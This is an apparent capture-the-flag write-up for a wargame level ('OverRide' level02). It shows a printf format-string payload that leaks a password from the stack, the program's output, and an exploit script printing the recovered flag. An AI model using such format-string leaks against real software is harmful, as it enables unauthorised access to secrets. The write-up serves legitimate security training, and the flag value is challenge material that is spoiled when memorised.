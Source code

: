 Here, with a little reverse engineering, we understand that in order to get to the systemcall to /bin/sh in the program, we need to input the password that we do not have since it is the one we are looking for. There is unfortunately no (or at least not any that we could find) easy exploit before that so we understand that this system call is a bait. Fortunately we have a very bad use of printf at the end, vulnerable to a format string attack. With gdb we can find that the password is stored in the stack at address $esp+22 to $esp+26 so 22nd to 26th element of the stack. We can just print these values with the format string like so :

`%22$p %23$p %24$p %25$p %26$p`

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: 
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

And there is the password, we do a little magic with this and [our super exploit](./Ressources/exploit.py) and we get the password :

```bash
python exploit.py 
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
